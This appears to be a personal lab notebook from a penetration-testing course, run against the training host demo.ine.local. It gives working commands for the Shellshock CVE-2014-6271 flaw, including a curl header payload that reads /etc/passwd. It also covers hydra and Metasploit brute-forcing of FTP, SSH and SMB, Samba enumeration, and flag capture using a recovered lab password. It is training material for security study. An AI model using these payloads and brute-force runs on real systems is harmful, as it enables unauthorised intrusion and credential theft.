 <h1>ShellShock CVE-2014-6271 </h1>
![[Screenshot_2025-09-15_10_55_46.png]]

```
nmap --script http-shellshock --script-args "http-shellshock.uri=/gettime.cgi" demo.ine.local
```


![[Screenshot_2025-09-15_10_55_58.png]]
```
curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'" \ http://localhost:8080/cgi-bin/vulnerable 
```


![[Screenshot_2025-09-15_10_56_09.png]]

![[Screenshot_2025-09-15_10_56_13.png]]

![[Screenshot_2025-09-15_10_56_17.png]]
```
() { :; }; echo; echo; /bin/bash -c 'cat /'
```

![[Screenshot_2025-09-15_10_56_20.png]]
```
() { :; }; echo; echo; /bin/bash -c 'ps -ef'
```
![[Screenshot_2025-09-15_10_56_25.png]]


<h4>Metasploit Method</h4>
```
use exploit/multi/http/apache_mod_cgi_bash_env_exec
```

<h2>ProFTPd Exploitation</h2>
  
```
hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt demo.ine.local -t 4 ftp
```
<h4>Metasploit Method </h4>
```
use auxiliary/scannner/ftp/ftp_login
```

  ```
echo "sysadmin" > users nmap --script ftp-brute --script-args userdb=/root/users -p 21 demo.ine.local
  ```

```
ftp demo.ine.local
"Enter Username"
"Enter Password"

ftp sysadmin@demo.ine.local
"Enter Password"
```

`FTP can be configured to allow anonymous connections.`
`TRUE`

<h2> SSH Exploit </h2>
```
msfconsole
use auxiliary/scanner/ssh/ssh_version
set RHOSTS demo.ine.local
exploit
```

```
use auxiliary/scanner/ssh/ssh_login
set RHOSTS demo.ine.local
set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
set PASS_FILE /usr/share/metasploit-framework/data/wordlists/common_passwords.txt
set STOP_ON_SUCCESS true
set VERBOSE true
exploit
```

```
sessions
sessions -i 1
find / -name "flag"
cat /flag
```

<h2> Samba Exploits </h2>

What is the NetBIOS computer name of samba server? Use appropriate nmap scripts.

```
nmap --script smb-os-discovery.nse -p 445 demo.ine.local
```

What is the samba version using Metasploit?

```
msfconsole -q
use auxiliary/scanner/smb/smb_version
set RHOSTS demo.ine.local
exploit
```

Find the NetBIOS computer name of samba server using nmblookup.

```
nmblookup -A demo.ine.local
```

Using smbclient determine whether anonymous connection (null session) is allowed on the samba server or not.

```
smbclient -L demo.ine.local -N
```

Using rpcclient determine whether anonymous connection (null session) is allowed on the samba server or not.

```
rpcclient -U "" -N demo.ine.local
```


_>What is the password of user “jane” required to access share “jane”? Use smb_login metasploit module with password wordlist /usr/share/wordlists/metasploit/unix_passwords.txt_
```
msfconsole -q
use auxiliary/scanner/smb/smb_login
set PASS_FILE /usr/share/wordlists/metasploit/unix_passwords.txt
set SMBUser jane
set RHOSTS demo.ine.local
exploit
```

_>What is the password of user “admin” required to access share “admin”? Use hydra with password wordlist: /usr/share/wordlists/rockyou.txt_
```
gzip -d /usr/share/wordlists/rockyou.txt.gz hydra -l admin -P /usr/share/wordlists/rockyou.txt demo.ine.local smb
```

_> Which share is read only? Use smbmap with credentials_
```
smbmap -H demo.ine.local -u admin -p password1
```

```
smbclient -L demo.ine.local -U jane
```

```
smbclient //demo.ine.local/jane -U jane
```

```
smbclient //demo.ine.local/admin -U admin
ls
cd hidden
ls
get flag.tar.gz
exit
tar -xf flag.tar.gz
cat flag
```

_>List the named pipes available over SMB on the samba server? Use pipe_auditor metasploit module with credentials obtained<_

```
msfconsole -q
use auxiliary/scanner/smb/pipe_auditor
set SMBUser admin
set SMBPass password1
set RHOSTS demo.ine.local
exploit
```

_>List sid of Unix users shawn, jane, nancy and admin respectively by performing RID cycling using enum4Linux with credentials_
```
enum4linux -r -u "admin" -p "password1" demo.ine.local
```